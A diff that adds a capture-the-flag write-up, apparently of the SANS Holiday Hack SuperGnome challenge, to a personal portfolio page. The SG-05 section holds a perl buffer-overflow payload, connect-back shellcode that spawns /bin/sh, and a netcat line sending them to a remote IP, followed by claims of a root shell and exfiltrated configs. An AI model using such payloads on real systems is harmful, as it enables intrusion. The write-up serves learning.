

Before and after one commit to M1ckeysofine/portfolio, a Markdown page: ctf/sans-holiday-hack.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/ctf/sans-holiday-hack.md
+++ b/ctf/sans-holiday-hack.md
@@ -105,3 +172,37 @@ EXEC:iwconfig EXEC:cat /tmp/iwlistscan.txt FILE:/root/Pictures/snapshot_CURRENT.
+- **Outcome:** Injected **malicious code**, revealing **Oogie Boogie’s name** stored in the system logs.
+
+---
+
+#### **SG-05 (São Paulo, Brazil) - Buffer Overflow**
+- **Method:** Found a **hidden service on port 4242** with a **buffer overflow vulnerability**.
+- **Exploit Code Used:**
+```bash
+perl -e 'print "X" x (105) . "\xe4\xff\xff\xe4" . "\x90" x (4) . "\x6b\x93\x04\x08"' > vuln
+
+perl -e 'print “\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd
+\x80\x49\x79\xf9\*public ip removed*\x68\x02\x00\x22\xb8\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd
+\x80\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80”' > shell code
+
+cat vuln shellcode | nc 54.233.105.81 4242
+
+```
+
+- **Outcome:** Gained **root shell**, extracted **Hans Trapp’s identity**, and confirmed **SuperGnome serial numbers**.
+
+---
+
+### **🕵️ Mastermind of the SuperGnome Operation**
+- **Final Discovery:** **Cindy Lou Who** orchestrated the **Gnome Surveillance Operation**.
+- **Motive:** To **track children's behavior** using IoT surveillance for **commercial and intelligence purposes**.
+
+---
+
+#### **Findings:**
+- Successfully **exfiltrated gnome.conf files** from all five SuperGnomes.
+- Each contained **serial numbers and tracking information** for compromised IoT devices.
+
+---
+
 ## **2014 SANS Holiday Hack Challenge – “The Noble Profession”**
 The 2014 challenge was a **story-driven penetration test** of a fictitious cybersecurity firm investigating an attack on Scrooge & Marley’s financial systems.
 
````
Also changed, not shown: other parts of ctf/sans-holiday-hack.md (+67 -0 lines), ctf/index.md (+1 -2 lines).
